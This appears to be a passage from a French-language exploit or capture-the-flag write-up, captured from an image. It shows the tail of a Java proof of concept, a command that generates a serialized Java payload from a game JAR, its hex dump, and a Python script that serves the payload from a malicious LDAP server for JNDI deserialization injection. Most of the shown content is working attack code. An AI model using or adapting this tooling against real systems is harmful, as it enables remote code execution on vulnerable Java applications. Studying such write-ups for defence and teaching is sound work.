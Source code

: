 ```java
    }
}
```

```
$ java -cp game-0.31.9-all.jar poc.java 2>blob.ser
$ xxd blob.ser
00000000: aced 0005 7372 0035 6f72 672e 6861 6c6c  ....sr.5org.hall
00000010: 6562 6172 6465 2e72 6563 7275 7465 6d65  ebarde.recruteme
00000020: 6e74 2e70 6c75 6769 6e73 2e4a 6172 506c  nt.plugins.JarPl
00000030: 7567 696e 436f 6e74 6169 6e65 7251 6323  uginContainerQc#
00000040: d945 5ca1 3302 0002 5a00 066c 6f61 6465  .E\.3...Z..loade
00000050: 644c 0003 7572 6c74 000e 4c6a 6176 612f  dL..urlt..Ljava/
00000060: 6e65 742f 5552 4c3b 7872 0032 6f72 672e  net/URL;xr.2org.
...
```

Il faut ensuite le servir dans un serveur LDAP. On peut utiliser
le module Python ldapserver:
```python
import logging
import socketserver

# pip install -t . ldapserver
# https://git.cccv.de/uffd/python-ldapserver
import ldapserver

# https://docs.oracle.com/javase/jndi/tutorial/config/LDAP/java.schema
JAVA_ATTRS = """
( 1.3.6.1.4.1.42.2.27.4.1.6
  NAME 'javaClassName'
...
"""

JAVA_OBJECTS = """
( 1.3.6.1.4.1.42.2.27.4.2.4
  NAME 'javaObject'
  DESC 'Java object representation'
...
)
"""

def split(s):
    items = s.strip().split("\n\n")
    return [x.replace("\n  ", " ").replace("\n", " ") for x in items]

java_sch = ldapserver.schema.INETORG_SCHMEA.extend(
    attribute_type_definitions=split(JAVA_ATTRS),
    object_class_definitions=split(JAVA_OBJECTS),
)

obj = open("blob.ser", "rb").read()

class RequestHandler(ldapserver.LDAPRequestHandler):
    subschema = ldapserver.SubschemaSubentry(java_sch, "cn=example")

    def do_search(self, basedn, scope, filterobj):
        print(basedn, scope, filterobj)
        yield from super().do_search(basedn, scope, filterobj)
        yield self.subschema.ObjectEntry(
            "dc=example,dc=com",
            objectClass=["javaObject"],
            javaClassName=["NotImportant"],
            javaSerializedData=[obj],
```